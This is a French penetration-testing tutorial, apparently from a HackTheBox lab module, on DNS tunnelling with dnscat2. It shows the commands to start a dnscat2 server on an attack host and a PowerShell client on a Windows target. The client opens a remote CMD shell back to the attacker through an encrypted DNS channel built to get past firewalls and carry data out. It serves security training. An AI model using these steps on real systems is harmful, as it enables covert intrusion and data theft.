 Tunnellisation DNS avec Dnscat2
==========================

* * * * *

[Dnscat2](https://github.com/iagox86/dnscat2) est un outil de tunnellisation qui utilise le protocole DNS pour envoyer des données entre deux hôtes. Il utilise un canal `Command-&-Control` (`C&C` ou `C2`) chiffré et envoie des données dans des enregistrements TXT au sein du protocole DNS. Habituellement, chaque environnement de domaine Active Directory dans un réseau d'entreprise aura son propre serveur DNS, qui résoudra les noms d'hôte en adresses IP et acheminera le trafic vers des serveurs DNS externes participant au système DNS global. Cependant, avec dnscat2, la résolution d'adresse est demandée à un serveur externe. Lorsqu'un serveur DNS local tente de résoudre une adresse, les données sont exfiltrées et envoyées sur le réseau au lieu d'une requête DNS légitime. Dnscat2 peut être une approche extrêmement furtive pour exfiltrer des données tout en évitant les détections de pare-feu qui suppriment les connexions HTTPS et reniflent le trafic. Pour notre exemple de test, nous pouvons utiliser le serveur dnscat2 sur notre hôte d'attaque et exécuter le client dnscat2 sur un autre hôte Windows.

* * * * *

Configuration et utilisation de dnscat2
--------------------------

Si dnscat2 n'est pas déjà configuré sur notre hôte d'attaque, nous pouvons le faire en utilisant les commandes suivantes :

#### Clonage dnscat2 et configuration du serveur

Clonage de dnscat2 et configuration du serveur

```
dsgsec@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
gem install bundler
bundle install

```

Nous pouvons ensuite démarrer le serveur dnscat2 en exécutant le fichier dnscat2.

#### Démarrage du serveur dnscat2

Démarrage du serveur dnscat2

```
dsgsec@htb[/htb]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

```

Après avoir exécuté le serveur, il nous fournira la clé secrète, que nous devrons fournir à notre client dnscat2 sur l'hôte Windows afin qu'il puisse authentifier et chiffrer les données envoyées à notre serveur dnscat2 externe. Nous pouvons utiliser le client avec le projet dnscat2 ou utiliser [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), un client basé sur PowerShell compatible dnscat2 que nous pouvons exécuter à partir de cibles Windows pour établir un tunnel avec notre serveur dnscat2. Nous pouvons cloner le projet contenant le fichier client sur notre hôte d'attaque, puis le transférer sur la cible.

#### Clonage de dnscat2-powershell sur l'hôte d'attaque

Clonage de dnscat2-powershell sur l'hôte d'attaque

```
dsgsec@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git

```

Une fois le fichier `dnscat2.ps1` sur la cible, nous pouvons l'importer et exécuter les cmdlets associés.

#### Importation de dnscat2.ps1

Importation de dnscat2.ps1

```
PS C:\htb> Import-Module .\dnscat2.ps1

```

Une fois dnscat2.ps1 importé, nous pouvons l'utiliser pour établir un tunnel avec le serveur exécuté sur notre hôte d'attaque. Nous pouvons renvoyer une session shell CMD à notre serveur.

Importation de dnscat2.ps1

```
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd

```

Nous devons utiliser le secret pré-partagé (`-PreSharedSecret`) généré sur le serveur pour nous assurer que notre session est établie et cryptée. Si toutes les étapes sont terminées avec succès, nous verrons une session établie avec notre serveur.

#### Confirmation de l'établissement de la session

Confirmation de l'établissement de la session

```
Nouvelle fenêtre créée : 1
Séance 1 Sécurité : CRYPTÉE ET VÉRIFIÉE !
(la sécurité dépend de la force de votre secret pré-partagé !)

dnscat2>

```

Nous pouvons répertorier les options dont nous disposons avec dnscat2 en saisissant `?` à l'invite.

#### Liste des options dnscat2

Liste des options dnscat2

```
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows

```

Nous pouvons utiliser dnscat2 pour interagir avec les sessions et aller plus loin dans un environnement cible sur les engagements. Nous ne couvrirons pas toutes les possibilités avec dnscat2 dans ce module, mais il est fortement encouragé de s'entraîner avec lui et peut-être même de trouver des façons créatives de l'utiliser lors d'un engagement. Interagissons avec notre session établie et plongeons dans un shell.

#### Interagir avec la session établie

Interagir avec la session établie

```
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```
